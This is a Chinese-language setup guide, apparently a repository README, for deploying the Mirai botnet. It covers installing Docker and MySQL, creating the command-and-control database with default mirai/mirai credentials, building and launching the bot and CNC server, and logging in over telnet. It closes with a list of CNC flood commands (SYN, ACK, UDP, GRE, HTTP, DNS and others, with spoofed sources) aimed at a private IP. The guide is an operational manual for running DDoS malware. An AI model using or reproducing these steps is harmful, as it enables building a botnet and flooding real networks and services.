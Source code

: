 # 环境搭建



## mysql环境

1.已有的mysql环境

2.docker mysql环境



##### Docker

```shell
yum-config-manager --add-repo https://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
yum install -y --setopt=obsoletes=0 docker-ce-18.06.1.ce-3.el7
```

##### 下载mysql镜像

```shell
docker pull mysql:5.7	
```



##### 初始化mirai数据库

方法一

***适用docker和非docker环境***

```
docker run -d -e MYSQL_ROOT_PASSWORD=root -p 3306:3306 --name mirai_mysql  mysql:5.7
mysql -h192.168.137.120 -uroot -proot < mirai.sql
```

方法二

***需要提前将mirai.sql脚本映射进去***

```
docker run -d -e MYSQL_ROOT_PASSWORD=root -p 3306:3306  -v /home/lvsj/mirai.sql:/root/mirai.sql --name mirai_mysql  mysql:5.7
docker exec mirai_mysql mysql -uroot -proot < /root/mirai.sql
```



mirai.sql内容复制出来保存成文件

```sql
CREATE DATABASE mirai;
use mirai;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);

CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);

INSERT INTO users VALUES (NULL, 'mirai', 'mirai', 0, 0, 0, 0, -1, 1, 30, 'abcdef');
```



GO环境，

现在是编译好的  x86_64 架构的cnc, 有需要其他架构的再重新编译

```

```



bot

cnc的地址，需要根据实际cnc的地址进行调整后，重新编译。（后面，我看能不能做个可配的）

```shell
./buid.sh debug telnet
```



# 启动



## 启动cnc

```
#增加可以指定的mysql参数功能 --help 
sudo ./mirai-cnc -h 192.168.137.120 -u root -p root
```



## 启动bot

```
./debug/mirai.dbg
```



# 登录cnc

```
telnet cnc_ip
user: mirai
password:mirai
```

cnc命令参考 

```
?
syn 192.168.179.166 15 syn=1 source=255.255.255.255 dport=80
syn 192.168.179.166 15 syn=1 source=255.255.255.255 
http 192.168.179.166 15 domain=192.168.179.166 method=Get conns=10
ack 192.168.179.166 15 ack=1 source=255.255.255.255
stomp 192.168.179.166 dport=80 len=512 rand=1
udpplain 192.168.179.166 len=512 rand=1
udp 192.168.179.166 len=512 rand=1 source=255.255.255.255
vse 192.168.179.166
greip 192.168.179.166 len=512 rand=1 source=255.255.255.255
greeth 192.168.179.166 len=512 rand=1 source=255.255.255.255
dns 192.168.179.166 domain=www.baidu.com
```



